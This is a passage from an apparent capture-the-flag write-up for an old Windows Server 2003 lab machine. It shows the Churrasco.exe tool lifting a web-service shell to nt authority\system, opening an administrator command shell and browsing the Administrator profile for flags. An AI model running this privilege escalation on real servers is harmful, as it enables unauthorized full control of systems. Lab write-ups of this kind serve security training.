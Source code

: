 ```
churrasco
/churrasco/-->Usage: Churrasco.exe [-d] "command to run"
C:\WINDOWS\TEMP

C:\WINDOWS\system32\inetsrv\ASP Compiled Templates>whoami
whoami
nt authority\network service

C:\WINDOWS\system32\inetsrv\ASP Compiled Templates>churrasco.exe "whoami"
churrasco.exe "whoami"
nt authority\system

C:\WINDOWS\system32\inetsrv\ASP Compiled Templates>churrasco.exe "cmd"
churrasco.exe "cmd"
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami

C:\WINDOWS\system32\inetsrv\ASP Compiled Templates>
```

We can see, that `churrasco` will run commands as `nt authority\system` user. So we can start an admin shell with `churrasco.exe "cmd"`.

Afterwards it is pretty simple to get the admin and user flags.
```
C:\WINDOWS\TEMP>cd c:\documents and settings
cd c:\documents and settings

C:\Documents and Settings>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of C:\Documents and Settings

04/12/2017  10:19 PM    <DIR>          .
04/12/2017  10:19 PM    <DIR>          ..
04/12/2017  09:48 PM    <DIR>          Administrator
04/12/2017  05:03 PM    <DIR>          All Users
04/12/2017  10:19 PM    <DIR>          Lakis
               0 File(s)              0 bytes
               5 Dir(s)  18,125,840,384 bytes free

C:\Documents and Settings>cd administrator
cd administrator

C:\Documents and Settings\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of C:\Documents and Settings\Administrator

04/12/2017  09:48 PM    <DIR>          .
04/12/2017  09:48 PM    <DIR>          ..
04/12/2017  05:28 PM    <DIR>          Desktop
04/12/2017  05:12 PM    <DIR>          Favorites
04/12/2017  05:12 PM    <DIR>          My Documents
04/12/2017  04:42 PM    <DIR>          Start Menu
04/12/2017  04:44 PM                 0 Sti_Trace.log
               1 File(s)              0 bytes
```